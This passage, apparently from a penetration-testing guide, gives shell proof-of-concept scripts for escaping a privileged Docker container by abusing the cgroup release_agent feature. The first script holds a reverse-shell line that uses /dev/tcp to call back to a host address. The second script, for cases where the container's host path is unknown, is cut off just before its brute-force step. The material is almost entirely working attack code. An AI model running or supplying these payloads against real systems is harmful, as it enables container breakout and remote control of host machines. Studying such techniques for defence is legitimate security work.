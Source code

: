 ```
#For a normal PoC =================
echo '#!/bin/sh' > /cmd
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd
#===================================
#Reverse shell
echo '#!/bin/bash' > /cmd
echo "bash -i >& /dev/tcp/172.17.0.1/9000 0>&1" >> /cmd
chmod a+x /cmd
#===================================

# Executes the attack by spawning a process that immediately ends inside the "x" child cgroup
# By creating a /bin/sh process and writing its PID to the cgroup.procs file in "x" child cgroup directory
# The script on the host will execute after /bin/sh exits 
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"

# Reads the output
cat /output
```

Find an explanation of the technique in:

#### Privileged Escape Abusing release_agent without known the relative path - PoC3

In the previous exploits the absolute path of the container inside the hosts filesystem is disclosed. However, this isn’t always the case. In cases where you don’t know the absolute path of the container inside the host you can use this technique:

```
#!/bin/sh

OUTPUT_DIR="/"
MAX_PID=65535
CGROUP_NAME="xyx"
CGROUP_MOUNT="/tmp/cgrp"
PAYLOAD_NAME="${CGROUP_NAME}_payload.sh"
PAYLOAD_PATH="${OUTPUT_DIR}/${PAYLOAD_NAME}"
OUTPUT_NAME="${CGROUP_NAME}_payload.out"
OUTPUT_PATH="${OUTPUT_DIR}/${OUTPUT_NAME}"

# Run a process for which we can search for (not needed in reality, but nice to have)
sleep 10000 &

# Prepare the payload script to execute on the host
cat > ${PAYLOAD_PATH} << __EOF__
#!/bin/sh

OUTPATH=\$(dirname \$0)/${OUTPUT_NAME}

# Commands to run on the host<
ps -eaf > \${OUTPATH} 2>&1
__EOF__

# Make the payload script executable
chmod a+x ${PAYLOAD_PATH}

# Set up the cgroup mount using the memory resource cgroup controller
mkdir ${CGROUP_MOUNT}
mount -t cgroup -o memory cgroup ${CGROUP_MOUNT}
mkdir ${CGROUP_MOUNT}/${CGROUP_NAME}
echo 1 > ${CGROUP_MOUNT}/${CGROUP_NAME}/notify_on_release

# Brute force the host pid until the output path is created, or we run out of guesses
```